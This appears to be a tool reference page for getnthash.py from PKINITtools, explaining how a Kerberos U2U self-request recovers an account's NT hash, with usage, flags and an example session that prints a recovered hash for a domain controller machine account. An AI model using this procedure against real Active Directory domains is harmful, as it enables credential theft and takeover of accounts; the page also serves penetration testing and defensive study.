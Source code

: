 ```yaml
---
title : "getnthash.py"
# pre : ' '
description : "Use Kerberos U2U to submit a TGS request for yourself."
date : 2023-12-03T06:11:46+01:00
# hidden : true
# draft : true
weight : 10
# tags : ['']
---
```


---

Use Kerberos U2U to submit a TGS request for yourself.

Use Kerberos U2U to submit a TGS request for yourself. This will include with the PAC which in turn contains the NT hash that you can decrypt with the AS-REP key that was used for your specific TGT. It's magic really. This tool requires a TGT resulting from PKINIT to be in your `KRB5CCNAME` env variable.

## Installation

Install [PKINITtools]({{< ref "pkinittools" >}}).

## Usage

```plain
getnthash.py [-h] -key KEY [-dc-ip ip address] [-debug] identity
```

## Flags

```plain
positional arguments:
  identity           domain/username

options:
  -h, --help         show this help message and exit
  -key KEY           AS REP key from gettgtpkinit.py
  -dc-ip ip address  IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -debug             Turn DEBUG output ON
```

## Examples

```plain
(PKINITtools) user@localhost:~/PKINITtools$ export KRB5CCNAME=s2019dc.ccache
(PKINITtools) user@localhost:~/PKINITtools$ python getnthash.py testsegment.local/s2019dc\$ -key 5769dff44ebeaa5a37b4e9f7005f63063ffd7c198b747ae72021901e8063b0e3
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
fa6b130d73311d1be5495f589f9f4571
```
